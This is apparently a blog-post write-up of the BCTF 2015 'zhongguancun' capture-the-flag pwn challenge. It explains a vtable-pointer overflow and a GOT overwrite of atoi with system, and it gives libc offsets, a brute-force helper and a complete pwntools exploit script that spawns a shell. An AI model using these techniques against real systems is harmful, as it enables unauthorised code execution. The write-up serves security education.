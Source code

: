 ```yaml
---
layout: post
title: "zhongguancun"
date: 2015-09-03 10:39:06 -0700
comments: true
categories: 
---
```

###0x00 analysis

https://github.com/ctfs/write-ups-2015/blob/master/bctf-2015/exploit/zhongguancun/zhongguancun-47a25f85cc5221071886cc129046e6e4.xz

item looks like this
	item
	{
	0	*vt;			
	4	char name[32];		
	36	char des[80];		
	116	int price;	
	120	int which_os;
	}
	

s  ------	2840 bytes  
storename 	46 + 63 bytes		--111  
item 		2+ 11 + 32 + 11(price) + 80 + 33 bytes	--171  
anyway, we can overflow 13bytes  
just, overflow next vtables to func sub_080492FE,we can write where we want  
first, change the value of money in .bss:0804B280 to the address of atoi in got.plt  
then, buy a thing,change the value of atoi in got.plt

	v2 = *(_DWORD *)money - *(_DWORD *)(a1 + 116) * v1;
	if ( v2 >= 0 )
	{
		*(_DWORD *)money = v2;
		print((int *)"Thanks for buying.\n");
		sprintf((char *)nptr, "Total money left: %d CNY.\n", *(_DWORD *)money);
		goto LABEL_13;
	}	
###0x01  


atoi 		2D4F0
		56432
system  	3B160

leak addr of atoi plus 56432 equal to 0xd160
sys 	d160

0x01 

I write a C program to calculate the number I should enter

	#include<stdio.h>
	#include<stdlib.h>
	int main()
	{
	      int i = 0x21f4f000;
	      int o = 0x22d16000;
	      int p = -2147483647;
	      int count;
	      for(;;p++)
		      for(count = 1;count>0;count++)
			      if(o == i - p*count)
				      printf("%d   %d\n", p, count);


	}

it works out like this

	root@jackpelf-VirtualBox:/tmp# ./a.out
	-2147483646   2140260352
	-2147483644   1070130176
	-2147483644   2143872000
	-2147483643   1715097600
	-2147483642   1429248000
	-2147483640   535065088

I chose the last one

###0x02 poc


	from pwn import *

	r = process("./zgc")
	f = open("input", "w")


	def sl(m):
		r.sendline(m)
		f.write(m + '\n')

	def rt(m):
		print r.readuntil(m)

	rt("choice?")
	sl("a")
	rt("store?")
	sl("S" *63)


	rt("choice?")
	sl("a")
	rt("name?")
	sl("A" * 31)
	rt("OS?")
	sl("4")
	rt("price?")
	sl("-2147483647")
	rt("description?")
	sl("B" * 79)

	rt("choice?")
	sl("c")


	atoi = 0x0804B037

	rt("choice?")
	sl("a")
	rt("name?")
	sl("a" * 31)
	rt("OS?")
	sl("4")
	rt("price?")
	sl("-2147483640")
	rt("description?")
	got = 0x0804B00C
	sl(p32(atoi) + "d"*75)



	for i in range(13):
		rt("choice?")
		sl("a")
		rt("name?")
		sl("A" * 31)
		rt("OS?")
		sl("4")
		rt("price?")
		sl("-2147483647")
		rt("description?")
		sl("B" * 79)

	rt("choice?")
	sl("a")
	rt("name?")
	sl("A" * 31)
	rt("OS?")
	sl("4")
	rt("price?")
	sl("-2147483647")
	rt("description?")
	sl("C"*(0x4e - 4) + p32(0x8049b74) )

	rt("choice?")
	sl("c")

	lg = 245


	rt("choice?")
	sl("d")
	rt("choice?")
	sl("b")
	rt("buy?")
	sl("2")
	rt("choice?")
	sl("b")
	rt("buy?")
	write_addr  = 0x0804B33C
	write_addr -= lg
	write_addr  = int(write_addr)
	sl(str(write_addr))

	rt("choice?")
	sl("a")
	rt("buy?")
	sl(str(535065088))

	rt("choice?")
	sl("a")
	rt("buy?")
	sl("sh")


	f.close()
	r.interactive()

